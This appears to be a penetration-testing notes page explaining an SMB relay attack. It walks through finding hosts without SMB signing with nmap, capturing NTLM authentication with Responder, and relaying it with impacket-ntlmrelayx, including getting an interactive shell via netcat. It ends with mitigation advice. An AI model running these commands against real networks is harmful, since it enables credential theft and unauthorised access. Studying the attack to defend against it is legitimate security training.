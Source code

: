 # SMB Relay

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Requirements:

* SMB signing **must be disabled** or **not enforced** on the target
* Relay user credentials must be admin on machine for any real value.



#### Methodology:

* Identify Hosts without SMB signing
* Change `Responder` configuration before run it.
* Run `Responder` tool on the right network interface
* Set up our SMB relay



## Identify Hosts without SMB signing

```bash
nmap --script=smb2-security-mode.nse -p445 IP/24
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Change Responder conf

The settings SMB and HTTP must be off. This because we have to relay the hashes and not capture them. This port will be use by SMB relay.

```bash
sudo nano /etc/responder/Responder.conf
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Run Responder tool

```bash
sudo responder -I NETWORK_INTERFACE -dw -v
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Set up SMB relay

To set up SMB relay we will using `impacket-ntlmrelayx` tool.

```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```

{% hint style="info" %}
The `targets.txt` file contains all computers identify in the step 1
{% endhint %}

{% code title="targets.txt" lineNumbers="true" %}
```
192.168.X.X
192.168.X.X
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### New connection auto-shell

We can set the `ntlmrelayx` to enstablish a shell when the relay can enters into a pc.

```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```

Check the port in the output where the connection has been established,

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Use netcat to establish the connection.

```bash
nc 127.0.0.1 PORT
```



## Mitigation strategies:

* **Enable SMB Signing on all devices**
  * Pro: Completely stops the attack
  * Con: Con cause performance issues with file copies
* **Disable NTLM authentication on network**
  * Pro: Completely stops the attack&#x20;
  * Con: If kerberos stops working, Windows defaults back to NTLM
* **Account tiering**
  * Pro: Limits domain admins to specific tasks
  * Con: Enforcing the policy may be difficult
* **Local admin restrinction**
  * Pro: Can prevent a lot of lateral movement
  * Con: Potential increase in the amount of service desk tickets
